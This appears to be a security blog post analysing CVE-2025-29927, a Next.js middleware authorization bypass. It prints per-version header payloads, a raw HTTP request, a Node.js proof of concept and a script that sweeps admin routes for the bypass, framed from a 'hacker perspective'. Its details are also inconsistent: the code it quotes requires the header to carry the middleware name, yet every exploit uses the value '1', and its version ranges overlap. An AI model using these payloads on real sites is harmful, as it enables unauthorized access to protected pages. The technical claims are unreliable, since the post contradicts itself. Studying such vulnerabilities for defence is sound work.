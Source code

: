 ```yaml
---
title: "CVE-2025-29927: Next.js Middleware Authorization Bypass"
layout: post
tags: [Next.js, CVE-2025-29927, middleware, authorization bypass, security, pentesting, red-team, web-security, Node.js, exploit, hacking, cybersecurity]
image: /assets/images/next.jpg

---
```


# CVE-2025-29927: Next.js Middleware Authorization Bypass – Deep Technical Analysis

CVE-2025-29927 is a critical security vulnerability in the Next.js framework. This issue arises from the improper handling of the `x-middleware-subrequest` header. This header plays a key role in Next.js middleware execution, and its misuse can bypass authorization checks.

---

## 1️⃣ Role of `x-middleware-subrequest` Header

Next.js uses the `x-middleware-subrequest` header to determine whether a request is an internal subrequest. This header is designed to prevent infinite middleware loops. However, incorrect handling allows external requests to bypass middleware checks.

---

## 2️⃣ Technical Mechanism of the Vulnerability

```javascript
const subreq = params.request.headers["x-middleware-subrequest"];
const subrequests = typeof subreq === "string" ? subreq.split(":") : [];

if (subrequests.includes(middlewareInfo.name)) {
  result = {
    response: NextResponse.next(),
    waitUntil: Promise.resolve(),
  };
  continue;
}
```

This code reads the `x-middleware-subrequest` header, splits it into an array, and if it contains `middlewareInfo.name`, the middleware is skipped, allowing external requests to bypass authorization.

---

## 3️⃣ Exploit Methods Across Next.js Versions

### 📌 Version 12.2 and Earlier

Middleware files are named `_middleware.ts` and reside in the `pages` folder. The `middlewareInfo.name` is the combination of directory and file name.

```javascript
x-middleware-subrequest: pages/_middleware
```

Setting this header externally can skip middleware checks.

### 📌 Version 12.2 and Later

Middleware files are `middleware.ts`. The `middlewareInfo.name` is just the file name.

```javascript
x-middleware-subrequest: middleware
```

Correctly setting this header still bypasses middleware.

### 📌 Version 13.2.0 and Later

Next.js enforces `MAX_RECURSION_DEPTH` to prevent infinite loops, but misuse of `x-middleware-subrequest` remains exploitable.

```javascript
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

---

## 4️⃣ Exploit Scenario

```http
GET /admin HTTP/1.1
Host: vulnerable-app.local
x-middleware-subrequest: 1
```

This request bypasses middleware and allows unauthorized access to routes like `/admin`.

### Node.js PoC

```javascript
import fetch from 'node-fetch';

async function exploit() {
    const res = await fetch('http://localhost:3000/admin', {
        headers: { 'x-middleware-subrequest': '1' }
    });
    const body = await res.text();

    if (body.includes('Admin Panel')) {
        console.log('[+] Bypass Successful!');
    } else {
        console.log('[-] Middleware blocking access.');
    }
}

exploit();
```

---

## 5️⃣ JWT / Cookie Combinations

Some projects combine middleware with cookie or JWT role checks:

```javascript
if (!req.cookies.auth_token && req.headers['x-middleware-subrequest'] !== '1') {
    return NextResponse.redirect('/login');
}
```

Adding the header allows access without token or JWT.

---

## 6️⃣ Header Manipulation Scenarios

| Scenario      | Header                                    | Result             |
| ------------- | ----------------------------------------- | ------------------ |
| Simple bypass | x-middleware-subrequest: 1                | Middleware skipped |
| JWT bypass    | x-middleware-subrequest: 1 + missing JWT  | Role check bypass  |
| Cookie bypass | x-middleware-subrequest: 1 + empty cookie | Auth bypass        |

---

## 7️⃣ Automated Test Script (Red-Team Style)

```javascript
import fetch from 'node-fetch';

const routes = ['/admin', '/dashboard', '/settings'];

async function testBypass() {
    for (const route of routes) {
        const res = await fetch(`http://localhost:3000${route}`, {
            headers: { 'x-middleware-subrequest': '1' }
        });
        console.log(`${route}: ${res.status}`);
    }
}

testBypass();
```

This script tests all protected routes automatically to quickly identify which can be bypassed.

---

## 8️⃣ Hacker Perspective

* Auth checks in middleware can be bypassed via header manipulation.
* JWT or cookie combinations can optimize bypass.
* Red-team testing involves code-based exploits and response analysis.
* Summary: `x-middleware-subrequest` = primary exploit entry point.
<!-- Share Buttons Start -->
<div class="share-buttons">
  <p>Share this post:</p>
  <a class="share-btn twitter" href="https://twitter.com/intent/tweet?text=CVE-2025-29927: Next.js Middleware Authorization Bypass&url={{ page.url | absolute_url }}" target="_blank">Twitter</a>
  <a class="share-btn facebook" href="https://www.facebook.com/sharer/sharer.php?u={{ page.url | absolute_url }}" target="_blank">Facebook</a>
  <a class="share-btn reddit" href="https://www.reddit.com/submit?url={{ page.url | absolute_url }}&title=CVE-2025-29927: Next.js Middleware Authorization Bypass" target="_blank">Reddit</a>
</div>

<style>
.share-buttons {
  margin-top: 30px;
  font-family: sans-serif;
}
.share-buttons p {
  margin-bottom: 8px;
  font-weight: bold;
}
.share-buttons .share-btn {
  display: inline-block;
  margin-right: 8px;
  padding: 8px 14px;
  color: #fff;
  text-decoration: none;
  border-radius: 5px;
  font-size: 14px;
  transition: opacity 0.2s;
}
.share-buttons .share-btn:hover {
  opacity: 0.8;
}
.share-buttons .twitter { background: #1da1f2; }
.share-buttons .facebook { background: #4267B2; }
.share-buttons .reddit { background: #ff4500; }
</style>
<!-- Share Buttons End -->


## 📺 Video Demonstration

<iframe width="100%" height="500" 
src="https://www.youtube.com/embed/S3CVytIv098" 
title="Next.js Middleware Bypass CVE-2025-29927" 
frameborder="0" 
allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" 
allowfullscreen></iframe>


